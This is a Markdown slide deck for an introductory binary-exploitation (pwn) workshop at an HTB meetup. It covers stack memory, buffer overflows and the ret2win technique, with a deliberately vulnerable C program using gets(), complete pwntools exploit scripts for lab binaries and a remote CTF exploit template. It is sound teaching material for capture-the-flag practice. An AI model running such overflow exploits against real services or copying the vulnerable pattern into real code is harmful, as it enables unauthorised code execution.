

# HTB Meetup IIUM
## Intro to PWN

05/12/2025


---

## About Me

### Mohammad Danish Hakim bin Mohd Nasir / Jerit3787

- Currently 3rd year in Computer Science (Network & Security)
- MCC 2025 alumni / semi-active RE:UN1ON player
- Given a talk at HTB Meetup at UPM
- https://www.danplace.tech


---

# Part 1: Introduction

---

## What is a Binary?

- A **compiled program** (executable file)
- Source code (C, C++, Rust) → Machine code
- Examples: `.exe` (Windows), ELF (Linux), Mach-O (macOS)
- Contains **machine instructions** the CPU can execute directly

```
Source Code (.c)  →  Compiler (gcc)  →  Binary (ELF)
     ↓                                      ↓
 Human readable              Machine readable (0s and 1s)
```

---

## What is Binary Exploitation?

- **Finding and exploiting vulnerabilities** in compiled programs
- Taking control of program execution
- Making the program do unintended things:
  - Read sensitive data (memory leaks)
  - Execute arbitrary code (shellcode)
  - Spawn a shell (get system access)

> "Turning a bug into a feature... for hackers"

---

## What is Pwn?

**Pwn** = CTF category for binary exploitation challenges

### The Pwn Process:
1. 🔍 **Analyze** - Reverse engineer the binary
2. 🐛 **Find vulnerability** - Buffer overflow, format string, etc.
3. 💻 **Develop exploit** - Craft malicious input
4. 🚀 **Get the flag** - Spawn shell or read flag file

---

## Common Pwn Challenge Types

| Type | Description |
|------|-------------|
| **ret2win** | Jump to existing win function *(today's focus)* |
| **ret2shellcode** | Execute injected code |
| **ret2libc** | Call libc functions (system, execve) |
| **ROP** | Chain small code gadgets |

---

## Why Learn Binary Exploitation?

| Reason | Details |
|--------|---------|
| 🏆 **CTF Competitions** | High point values, less competitors |
| 🔒 **Real-World Security** | CVEs, bug bounties pay well |
| 💼 **Career Opportunities** | Vuln researcher, exploit dev, pentester |

---

## Real-World Examples

| CVE | Vulnerability | Impact |
|-----|--------------|--------|
| Heartbleed | Buffer over-read | Leaked encryption keys |
| EternalBlue | Buffer overflow | WannaCry ransomware |
| Dirty COW | Race condition | Linux privilege escalation |
| Log4Shell | Code injection | Remote code execution |

> Many critical vulnerabilities are memory corruption bugs!

---

## Prerequisites

- ✅ Basic understanding of **C programming**
- ✅ Familiarity with **Linux command line**
- ✅ Basic knowledge of how programs run

---

## Tools Overview

| Tool | Purpose |
|------|---------|
| **GDB + pwndbg** | Debugging binaries |
| **Ghidra** | Reverse engineering |
| **pwntools** | Exploit development (Python) |
| **checksec** | Check binary security protections |

---

# Part 2: Fundamentals

---

## Memory Layout

```
High Address
┌─────────────────┐
│      Stack      │  ← Local variables, return addresses
│        ↓        │    (grows downward)
├─────────────────┤
│        ↑        │
│      Heap       │  ← Dynamic memory (malloc)
├─────────────────┤
│      BSS        │  ← Uninitialized global variables
├─────────────────┤
│      Data       │  ← Initialized global variables
├─────────────────┤
│      Text       │  ← Program code (read-only)
└─────────────────┘
Low Address
```

---

## The Stack (Data Structure)

**LIFO** - Last In, First Out

```
    PUSH 'A'     PUSH 'B'     POP
    ┌───┐        ┌───┐        ┌───┐
    │   │        │ B │ ←top   │   │
    ├───┤        ├───┤        ├───┤
    │ A │ ←top   │ A │        │ A │ ←top
    └───┘        └───┘        └───┘
```

- **push** - Add to top | **pop** - Remove from top

---

## The Heap (Data Structure)

**Dynamic memory** - Allocated at runtime

```c
char *buf = malloc(100);  // Allocate
strcpy(buf, "Hello");     // Use
free(buf);                // Free
```

---

## Stack vs Heap

| Stack | Heap |
|-------|------|
| Automatic | Manual (malloc/free) |
| Fixed size | Grows as needed |
| Fast | Slower |
| LIFO | No order |

---

## The Stack Frame

```
High Address
┌─────────────────┐
│   Arguments     │  ← Function parameters
├─────────────────┤
│ Return Address  │  ← Where to go after function ends (RIP/EIP)
├─────────────────┤
│   Saved RBP     │  ← Previous base pointer
├─────────────────┤
│ Local Variables │  ← char buffer[64], int x, etc.
├─────────────────┤
│       ...       │
└─────────────────┘
Low Address
```

---

## Calling Conventions

### What happens when a function is called?

1. **`call function`**
   - Push return address onto stack
   - Jump to function

2. **Function prologue**
   - Push old RBP
   - Set RBP = RSP

3. **`ret`**
   - Pop return address from stack
   - Jump to that address

---

## x86/x64 Registers

| Register | 64-bit | 32-bit | Purpose |
|----------|--------|--------|---------|
| Instruction Pointer | RIP | EIP | Points to next instruction |
| Stack Pointer | RSP | ESP | Points to top of stack |
| Base Pointer | RBP | EBP | Points to base of stack frame |

---

# Part 3: Buffer Overflow Basics

---

## What is a Buffer Overflow?

- Writing **beyond allocated memory**
- Overwriting adjacent memory on the stack
- Can overwrite **return address** → control program flow!

```
Before overflow:          After overflow:
┌──────────────┐         ┌──────────────┐
│ Return Addr  │         │ 0x41414141   │ ← Overwritten!
├──────────────┤         ├──────────────┤
│ Saved RBP    │         │ AAAAAAAA     │ ← Overwritten!
├──────────────┤         ├──────────────┤
│ buffer[64]   │         │ AAAAAAAA...  │ ← Our input
└──────────────┘         └──────────────┘
```

---

## Vulnerable Functions

### ❌ Never use these:

| Function | Problem |
|----------|---------|
| `gets()` | No bounds checking at all |
| `strcpy()` | No length limit |
| `sprintf()` | No length limit |
| `scanf("%s")` | No length limit |

---

### ✅ Safe alternatives:

| Function | Safe Version |
|----------|--------------|
| `gets()` | `fgets()` |
| `strcpy()` | `strncpy()` |
| `sprintf()` | `snprintf()` |
| `scanf("%s")` | `scanf("%63s")` |

---

## Simple Overflow Example

```c
#include <stdio.h>

void vulnerable() {
    char buffer[64];
    
    printf("Enter your name: ");
    gets(buffer);  // ← VULNERABLE! No bounds checking
    
    printf("Hello, %s!\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}
```

**What happens if we input 100 characters?**

---

## Security Protections

Use `checksec` to identify protections:

```bash
$ checksec ./binary
```

| Protection | Description | Bypass |
|------------|-------------|--------|
| **ASLR** | Randomizes memory addresses | Memory leaks |
| **NX/DEP** | Non-executable stack | ROP chains |
| **Stack Canary** | Detects stack overwrites | Leak canary |
| **PIE** | Randomizes binary base | Memory leaks |

---

# Part 4: ret2win Technique

---

## What is ret2win?

- **Simplest** exploitation technique
- Overwrite return address to jump to a "win" function
- Win function **already exists** in the binary
  - Prints flag
  - Spawns shell
  - Does something useful

> Perfect for learning the basics of buffer overflow exploitation!

---

## ret2win Attack Flow

```
                    Payload Structure
    ┌─────────────────────────────────────────────┐
    │ AAAA...AAAA │ BBBBBBBB │ win() address      │
    │ (64 bytes)  │ (8 bytes)│ (8 bytes)          │
    │   buffer    │   RBP    │ Return Address     │
    └─────────────────────────────────────────────┘
                              ↓
                         Jumps to win()
                              ↓
                         Flag printed!
```

---

## Step 1: Finding the Offset

Using pwndbg's cyclic pattern:

```bash
# Generate a unique pattern
pwndbg> cyclic 100

# Run the program, input the pattern, it crashes
pwndbg> run

# Find the offset from crash value
pwndbg> cyclic -l 0x6161616161616166
Found at offset: 72
```

**Offset = 72 bytes** (buffer + saved RBP)

---

## Step 2: Finding the Win Function

**Using Ghidra:**
- Open binary → Analyze → Find `win` function

**Using objdump:**
```bash
$ objdump -t ./binary | grep win
0000000000401196  win
```

**Using pwndbg:**
```bash
pwndbg> info functions win
0x0000000000401196  win
```

---

## Step 3: Building the Exploit

```python
from pwn import *

# Load the binary
elf = ELF('./challenge')
p = process('./challenge')

# Configuration
offset = 72                    # Found using cyclic
win_addr = elf.symbols['win']  # Address of win function

# Build the payload
payload = b'A' * offset        # Fill buffer + saved RBP
payload += p64(win_addr)       # Overwrite return address

# Send payload
p.sendline(payload)

# Get the flag!
p.interactive()
```

---

## 64-bit vs 32-bit

| Aspect | 32-bit | 64-bit |
|--------|--------|--------|
| Address size | 4 bytes | 8 bytes |
| Packing function | `p32()` | `p64()` |
| Registers | EIP, ESP, EBP | RIP, RSP, RBP |

---

## Stack Alignment (64-bit)

Sometimes you need to add a `ret` gadget before the win address:

```python
ret_gadget = 0x40101a  # Address of a 'ret' instruction
payload = b'A' * offset
payload += p64(ret_gadget)  # Align stack to 16 bytes
payload += p64(win_addr)
```

> If exploit crashes with MOVAPS error, add a ret gadget!

---

## Finding a `ret` Gadget

**Method 1: Using ROPgadget**
```bash
$ ROPgadget --binary ./challenge | grep ": ret$"
0x000000000040101a : ret
```

**Method 2: Using pwntools**
```python
from pwn import *
elf = ELF('./challenge')
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
print(hex(ret))  # 0x40101a
```

**Method 3: Using objdump**
```bash
$ objdump -d ./challenge | grep "ret$"
  40101a:  c3   ret
```

> If exploit crashes with MOVAPS error, add a ret gadget!

---

# Part 5: Hands-On Lab

---

## Hands-On Setup

### Get the challenges:

```bash
# Clone the repository
git clone https://github.com/Jerit3787/htb-meetup-pwn

# Navigate to hands-on folder
cd htb-meetup-pwn/handson
```

### Build the binaries:

```bash
chmod +x build.sh
./build.sh
```

---

## Challenge Info

| Arch | Buffer Size | Offset | Win Function |
|------|-------------|--------|--------------|
| x86 (32-bit) | 64 bytes | 68 | `win()` |
| x64 (64-bit) | 64 bytes | 72 | `win()` |

### Verify with checksec:

```bash
$ checksec ./challenge
    Stack:    No canary found     ← Exploitable!
    PIE:      No PIE              ← Fixed addresses!
```

---

## Step-by-Step Walkthrough

1. **Run checksec** → Check protections
2. **Open in Ghidra** → Find `win` function address
3. **Use GDB** → Find offset with cyclic pattern
4. **Write exploit** → Build payload with pwntools
5. **Run exploit** → Get the flag!

---

## x86 Exploit (32-bit)

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./challenge')
p = process('./challenge')

offset = 68  # buffer[64] + saved EBP[4]
win_addr = elf.symbols['win']

payload = b'A' * offset + p32(win_addr)

p.sendlineafter(b'input: ', payload)
p.interactive()
```

---

## x64 Exploit (64-bit)

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./challenge')
p = process('./challenge')

offset = 72  # buffer[64] + saved RBP[8]
win_addr = elf.symbols['win']

# Get ret gadget for stack alignment
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]

payload = b'A' * offset + p64(ret) + p64(win_addr)

p.sendlineafter(b'input: ', payload)
p.interactive()
```

---

## Run and Get Flag!

```bash
$ python3 exploit.py
🎉 Congratulations! You solved the x86 hands-on!
FLAG{x86_r3t2w1n_b4s1cs}
```

---

## Common Mistakes

| Problem | Solution |
|---------|----------|
| Wrong offset | Re-check with cyclic pattern |
| Using `p32` on 64-bit | Use `p64()` for 64-bit |
| Stack alignment crash | Add `ret` gadget (x64) |
| Address wrong | Check endianness |

---

## Debug Tips

```python
# Print payload in hex
print(payload.hex())

# Pause before sending (attach GDB)
pause()

# Enable verbose mode
context.log_level = 'debug'
```

---

# Part 6: Mini CTF Challenge 🏆

---

## CTF Challenge

Time to test your skills!

### Get the CTF binaries:

```bash
# From the cloned repository
cd htb-meetup-pwn
unzip -P htb2025 ctf_challenges.zip
```

---

### Connection Info:

| Challenge | Port | Command |
|-----------|------|----------|
| x86 | 31337 | `nc bore.pub 31337` |
| x64 | 31338 | `nc bore.pub 31338` |

### Hints:
- Buffer size is **32 bytes** (not 64!)
- Win function is called `get_flag()`
- Flag is read from a file on the server

---

## CTF Challenge - What's Different?

| Hands-On | CTF |
|----------|-----|
| Buffer: 64 bytes | Buffer: 32 bytes |
| Offset: 68/72 | Offset: 36/40 |
| `win()` function | `get_flag()` function |
| Prints flag directly | Reads from `flag.txt` |
| Local only | Remote via netcat |

> Use the same technique, just adjust the offset!

---

## CTF - Exploit Template

```python
from pwn import *

# Remote connection
p = remote('<IP>', 9001)  # x86
# p = remote('<IP>', 9002)  # x64

offset = 36  # x86: 32+4, x64: 32+8=40
flag_addr = 0x??????  # Find with Ghidra!

p.sendlineafter(b'> ', b'1')

payload = b'A' * offset + p32(flag_addr)
p.sendlineafter(b'name? ', payload)

p.interactive()
```

---

## Good Luck! 🚩

### Rules:
- First to solve gets bragging rights!
- Ask if you're stuck
- Have fun!

⏱️ **Time: 15 minutes**

---

# Part 7: Wrap-Up

---

## What's Next?

| Technique | When to Use |
|-----------|-------------|
| **ret2libc** | No win function |
| **ROP Chains** | NX enabled |
| **Format String** | printf(user_input) |
| **Heap Exploitation** | Use-after-free |

---

## Practice Resources

| Resource | Difficulty |
|----------|------------|
| **picoCTF** | Beginner |
| **pwn.college** | Beginner-Intermediate |
| **ROP Emporium** | Intermediate |
| **HTB Academy** | All levels |

---

### Video Resources

📺 **Pwn Playlist**: https://www.youtube.com/playlist?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94



---

## Cheat Sheet

```python
from pwn import *

elf = ELF('./binary')
p = process('./binary')

offset = 72
win = elf.symbols['win']

payload = b'A' * offset + p64(win)
p.sendline(payload)
p.interactive()
```

---

## Useful GDB Commands

```bash
checksec              # Check protections
info functions        # List functions
disass main          # Disassemble function
cyclic 100           # Generate pattern
cyclic -l 0x616161   # Find offset
```

---

## Q&A

### Questions?

---

# Thank You!

## Happy Hacking! 🐉
